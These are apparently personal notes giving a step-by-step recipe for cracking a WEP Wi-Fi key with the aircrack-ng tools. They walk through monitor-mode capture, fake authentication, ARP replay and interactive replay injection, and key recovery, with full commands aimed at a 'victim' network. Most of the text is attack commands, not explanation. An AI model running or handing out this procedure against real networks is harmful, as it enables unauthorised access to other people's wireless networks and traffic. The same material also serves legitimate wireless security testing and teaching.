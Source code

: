 Wireless Equivalent Privacy.
Most WEP keys can be recovered or cracked within 3 minutes.

To crack it, it is needed the following target's information:
- ESSID
- BSSID
- Wireless channel
- Client's MAC

---
Start a **WEP** attack:

- Connect to the victim's machine by ssh
- Identify the available wireless network interfaces:
````
airmon-ng
````
- Locate the target wireless network:
````
airodump-ng monO #mono is the monitor to pick
````
- When airodump locates de target, press Ctrl+C to stop the search
- Copy the MAC address in the BSSID and note the channel
- Open in other terminal airodump-ng to sniff wireless
````
airodump-ng --bssid victim's_mac_address -c channel -w file.txt 

#after bssid you must put the mac address that you obtained before and the -c indicates the channel
````
- Open another terminal without closing the before one and fake an authentication:
````
aireplay-ng -1 0 -a victim's_mac_address -h attacker's_mac_address -e VICTIM'S_ESSID monO --ignore-negative-one

#-1 indicates fake authentication, mono is the monitor to pick
````
- Once we get the fake authentication, we will generate traffic that appears to come from a trusted MAC:
````
aireplay-ng -3 -b victim's_mac_address -h attacker's_mac_address monO --ignore-negative-one

#Here we are making an ARP injection or ARP replay attack
````
- While the ARP continues, open another terminal and write:
````
aireplay-ng -2 -p 0841 -c FF:FF:FF:FF:FF:FF -b victim's_mac_address -h attacker's_mac_address monO --ignore-negative-one

#-2 indicates that we are using the Interactive Replay Attack, -c sets the destination to send the packets to all the hosts on the network
````
- Go back to the sniffing windows
![[sniffing window.png]]
You must wait until the data field value is above 5000
- Then, stop everything
- Now, in a new terminal execute:
````
aircrack-ng -a 1 -b victim's_mac_address -n 64 web_log-01.cap

#this command is used to crack the web key
````
![[key found.png]]
